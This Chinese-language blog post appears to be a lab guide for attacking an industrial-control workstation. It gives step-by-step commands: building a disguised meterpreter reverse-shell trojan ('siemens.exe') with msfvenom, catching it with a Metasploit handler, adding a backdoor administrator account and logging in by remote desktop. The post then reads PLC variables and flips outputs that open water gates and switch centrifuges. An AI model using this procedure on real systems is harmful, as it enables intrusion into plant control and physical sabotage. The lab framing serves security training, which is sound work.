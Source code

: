 ```yaml
---
layout: post
title:  "工控上位机攻击步骤（windows）"
date:   2018-11-24 
author: co0ontty
cover: '/assets/img/posts/swj-4.png'
categories: 工控 windows shell ALL
tags: 工控 windows shell ALL
describe: 工控安全实验指南-攻击上位机
---
```


## 攻入上位机获取控制权限实验说明

#### 一：针对上位机的 windows 系统制作 shell 反弹木马

1.在 linux 里使用工具包中的 msfinstall 文件安装 msf 攻击套件（kali 操作系统中默认集成该工具），具体步骤如下：  
1.使用 cd 命令进入到工具包文件夹中  
2.使用命令赋予安装程序相关权限  

```shell
 chmod +x msfinstall
```

3.使用命令安装 msf  

```shell
./msfinstall
```

2.获取攻击机的 ip 地址及端口  
![avatar](/assets/img/posts/swj-1.png)  
lo 显示为网线连接的网络信息，en0 显示的是无线连接的网络信息（后续实验默认使用 192.168.199.137 为攻击机 ip）  
3.生成 shell 回弹木马  
如下图在终端中直接输入以下命令生成木马程序  

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.199.137 LPORT=7777 -f exe -o /Users/co0ontty/siemens.exe  
lhost和lport为攻击机ip和端口
参考Frp使用教程可以实现通过跳板的外网渗透
```

（lhost 为攻击机 ip，lport 为攻击机接收 shell 的端口，-o 后的参数需更改为攻击机保存木马的文件夹）  
![avatar](/assets/img/posts/swj-2.png)  
4.运行 msfconsole 连接 shell  
1.终端中直接输入 msfconsole 使用（第一次输入需要配置数据库，默认全部选择 yes）  
2.如下图设置 exploit 和 payload  

```shell
Use exploit/multi/handler  
Set payload windows/meterpreter/reverse_tcp
```

3.设置攻击机 ip 和监听端口  

```shell
Set lhost 192.168.199.137  
Set lport 7777
```

4.运行程序  

```shell
run
```

配置完成如下图所示  
![avatar](/assets/img/posts/swj-3.png)  
5.获得上位机权限  
1.将木马拷贝到上位机中运行（win10 及以上系统需要右键使用管理员身份运行）  
2.攻击机获得反弹的 shell（如下图所示）  
![avatar](/assets/img/posts/swj-4.png)  
6.新建管理员账户  
1.新建账户  
![avatar](/assets/img/posts/swj-5.png)  
2.将新建的账户提升为管理员  

```shell
Net localgroup “Administrators” 123 /add
```

3.使用远程桌面连接，并使用该账户登陆  
7.读取工控设备基本信息  
1.打开工控管理软件，双击项目打开项目  
2 选择打开项目试图选项，进入组态视图（如下图所示）  
![avatar](/assets/img/posts/swj-6.png)  
3.选择相应 plc，打开 plc 变量选项，双击打开所有变量查看变量表  
![avatar](/assets/img/posts/swj-7.png)  

#### 二：使用工具修改相关地址变量达到预期效果

下面使用的工具存在于工具包中测试文件夹中(工具包下载地址：https://download.csdn.net/download/weixin_38830346/10868092 )  
环境配置：  
1.运行前请将 snap7.dll 和 snap7.lib 拷贝到你的操作系统对应的版本的 System32(32 位)或 SysWOW64(64 位)下  
2.连通 192.168.1.8  
一：水闸开关测试  
1.打开 PLC 调试.exe  
2.读取 I  1.0 的参数  
3.通过更改 I 1.0 的参数值来改变水闸的开关状态（可改变的参数为 0 和 1，默认 0 为关闭状态 1 为开启状态）  
二：离心机测试  
1.打开 PLC 调试  
2.读取 Q 2.0，Q 2.1，Q 2.2，Q 2.3 的参数  
3.通过更改这四个地址的参数来改变这四个离心机的状态 （可改变的参数为 0 和 1，默认 0 为关闭状态，1 为开启状态）  

